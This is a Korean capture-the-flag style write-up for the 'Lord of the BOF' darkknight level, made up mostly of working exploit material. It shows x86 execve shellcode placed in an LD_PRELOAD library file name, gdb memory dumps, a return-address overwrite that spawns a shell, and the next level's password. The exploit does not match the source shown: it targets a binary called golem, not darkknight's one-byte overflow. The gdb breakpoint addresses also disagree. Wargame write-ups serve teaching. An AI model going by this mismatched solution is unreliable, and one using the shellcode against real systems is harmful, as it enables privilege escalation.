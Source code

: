 ============================================================================================================
[lob] darkknight
============================================================================================================

source code
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
    */

    #include <stdio.h>
    #include <stdlib.h>

    void problem_child(char *src)
    {
        char buffer[40];
        strncpy(buffer, src, 41);
        printf("%s\n", buffer);
    }

    main(int argc, char *argv[])
    {
        if(argc<2){
            printf("argv error\n");
            exit(0);
        }
        problem_child(argv[1]);
    }


Buffer Overflow
============================================================================================================

스택에 다음과 같이 들어가게 됩니다.

======= =========
LOW     
------- ---------
Buffer  (40byte)
SFP     (4byte)
RET     (4byte)
argc    (4byte)
argv    (4byte)
------- ---------
HIGH    
======= =========


EXPLOIT
============================================================================================================

쉘코드 파일명을 공유 라이브러리로 등록
--------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 \x2f 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않습니다.

\x2f가 없는 쉘코드로 파일명을 생성하도록 합니다.

공유 라이브러리 영역에 쉘코드로 파일명을 등록합니다.

.. code-block:: console
    
    $ gcc -fPIC -shared -o `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` golem.c

    $ export LD_PRELOAD=./`python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

gdb를 통해 공유 라이브러리에 올라간 쉘코드 주소를 확인합니다.

.. code-block:: console

    (gdb) b* main
    Breakpoint 1 at 0x8048500
    (gdb) r
    Starting program: /home/skeleton/golem2
    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048470 in main ()
    (gdb) x/100x $esp-3000

    ===========     =============== =============== =============== ==========
    0xbfffeef4:     0x000005f0      0x0000004d      0x0000028d      0x00000319
    0xbfffef04:     0x000005a7      0x00000514      0x0000020c      0x00000659
    0xbfffef14:     0x000002a4      0x0000003f      0x00000311      0x000001fe
    0xbfffef24:     0x00000000      0x0000050f      0x00000446      0x00000000
    0xbfffef34:     0x00000500      0x0000054e      0x000006d6      0x0000068b
    0xbfffef44:     0x00000000      0x0000037d      0x00000000      0x0000038c
    0xbfffef54:     0x00000000      0x000000cb      0x0000059b      0x00000707
    0xbfffef64:     0x00000557      0x00000000      0x00000564      0x00000000
    0xbfffef74:     0x00000301      0x0000048e      0x00000550      0x00000000
    0xbfffef84:     0x0000067f      0x00000000      0x00000000      0x00000715
    0xbfffef94:     0x000005e9      0x0000060d      0x00000529      0x000003a4

    (중략)
    0xbffff604:     0xbffff64c      0x00000002      0x40023fd0      0x40013c00
    0xbffff614:     0x4000ba15      0x40013868      0x40000814      0x400041b0
    0xbffff624:     0x00000001      0xbffff634      0x40001528      0x000002c8
    0xbffff634:     0x00000000      0x080482d0      0x00000000      0x00000001
    0xbffff644:     0x40000824      0xbffff654      0x400075bb      0x40017000
    0xbffff654:     0x00002fb2      0x40013868      0xbffff7e4      0x4000380e
    0xbffff664:     0x40014428      0x90902f2e      0x90909090      0x90909090
    0xbffff674:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffff684:     0x90909090      0x90909090      0x90909090      0xc0319090
    0xbffff694:     0x1111ba50      0xc2811111      0x57621e1e      0x1111ba52
    0xbffff6a4:     0xc2811111      0x5d58511e      0x50e38952      0x31e18953
    ===========     =============== =============== =============== ==========


RET 주소를 공유 라이브러리 로드 주소로 변경하여 공격 진행
--------------------------------------------------------------------------------

공유 라이브러리 주소 : nop(40 byte) + shellcode (39 byte) 

argv[1] : nop(44 byte) + 공유 라이브러리 주소

.. code-block:: console

    $ ./golem `python -c 'print "\x90"*44+"\x82\xf6\xff\xbf"'`

    bash$ whoami

    golem
    bash$ my-pass
    euid = 511
    cup of coffee

